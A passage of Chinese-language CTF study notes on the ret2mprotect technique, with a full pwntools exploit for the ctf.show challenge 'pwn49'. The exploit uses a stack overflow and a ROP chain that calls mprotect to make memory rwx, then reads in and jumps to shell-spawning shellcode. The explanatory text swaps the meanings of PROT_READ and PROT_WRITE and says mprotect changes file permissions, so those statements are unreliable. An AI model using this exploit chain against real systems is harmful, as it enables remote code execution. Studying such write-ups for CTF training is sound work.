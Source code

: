 ## pwn ret2mprotect

mprotect函数：用来修复一段指定内存区域的保护属性

原型如下：

```
int mprotect(const void* start ,size_t len,int prot);
void* start：区段开始位置（第一个参数填的是一个地址，是指需要进行操作的地址。）
size_t len :区段的大小（第二个参数是地址往后多大的长度）
int prot：区段的权限

mprotect()函数把自start开始的，长度位len的内存区的保护属性修改为prot指定的值
```

prot可以取以下几个值,并且可以用"|"将几个属性合起来使用:

1. PROT_READ:表示内存段内的内容可写;
2. PROT_WRITE:表示内存段内的内容可读;
3. PROT_EXEC:表示内存段中的内容可执行;
4. PROT_NONE:表示内存段中的内容根本无法访问。
5.  prot=7 是可读可写可执行

指定的内存区间必须包含整个内存页(4K) 。区间开始的地址start必须是一个内存页的起始地址,并且区间长度len必须是页大小的整数倍。因为程序本身也是静态编译，所以地址是不会变的。

可以通过mprotect()函数来修改区段的权限(例如bss),使其权限变为(rwx),然后将shellcode写进去并跳转过去.

---

### pwn49

![image-20241117180653836](C:\Users\fofa\AppData\Roaming\Typora\typora-user-images\image-20241117180653836.png)

这里发现有一个栈保护但是实际上这个栈保护是没有的

一个明显的栈溢出

![image-20241117180818580](C:\Users\fofa\AppData\Roaming\Typora\typora-user-images\image-20241117180818580.png)

这里主要是使用了mprotect的函数使用 可以对文件进行更改他的文件权限因此可以变成rwx因此他的exp：

```python
from pwn import *


# io =process("/home/fofa/pwn")
elf = ELF("/home/fofa/pwn")
io = remote("pwn.challenge.ctf.show", 28114)
mprotect = elf.sym["mprotect"]
read = elf.sym["read"]

ebx_esi_ebp_ret = 0x080a019b# 0x080a019b : pop ebx ; pop esi ; pop ebp ; ret
got_plt = 0x080DA000
lenth = 0x1000
port = 0x7

shellcode = asm(shellcraft.sh())

payload = cyclic(0x12+4) +p32(mprotect)+ p32(ebx_esi_ebp_ret)+p32(got_plt)+p32(lenth)+p32(port)
payload += p32(read)
payload += p32(ebx_esi_ebp_ret)+p32(0)+p32(got_plt)+p32(lenth)+p32(got_plt)

io.sendline(payload)
io.sendline(shellcode)
io.interactive()
```

---

### pwn50

